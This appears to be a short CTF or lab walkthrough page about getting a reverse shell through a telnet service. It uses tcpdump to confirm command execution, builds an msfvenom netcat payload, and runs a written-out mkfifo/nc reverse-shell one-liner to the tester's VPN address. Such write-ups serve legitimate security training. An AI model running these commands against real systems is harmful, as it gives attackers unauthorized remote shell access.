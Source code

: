 ```yaml
---
icon: square-terminal
---
```


# tcpdump listener & reverse shell

with the OpenVPN connection:

* `sudo tcpdump ip proto \\icmp -i tun0`

<figure><img src="../../.gitbook/assets/image (65).png" alt=""><figcaption><p>why tun0</p></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (66).png" alt=""><figcaption></figcaption></figure>

in order to find if telnet is executing our commands on it we started a tcpdump listener on our local machine and then executed `.RUN ping [our local ip] -c 1`

***

We're going to generate a reverse shell payload using msfvenom.This will generate and encode a netcat reverse shell for us. Here's our syntax:\


`msfvenom -p cmd/unix/reverse_netcat lhost=[local tun0 ip] lport=4444 R`

`-p` = payload

`lhost` = our local host IP address (this is your machine's IP address)

`lport` = the port to listen on (this is the port on your machine)

`R` = export the payload in raw format

<figure><img src="../../.gitbook/assets/image (64).png" alt=""><figcaption></figcaption></figure>

#### Now all we need to do is start a netcat listener on our local machine. We do this using:

`nc -lvp [listening port]`

after that we copy and paste our msfvenom payload into the telnet session and run it as a command to get a shell.

`.RUN mkfifo /tmp/qdym; nc 10.13.65.129 44444 0</tmp/qdym | /bin/sh >/tmp/qdym 2>&1; rm /tmp/qdym` was run in the telnet session, then:

<figure><img src="../../.gitbook/assets/image (4).png" alt=""><figcaption></figcaption></figure>

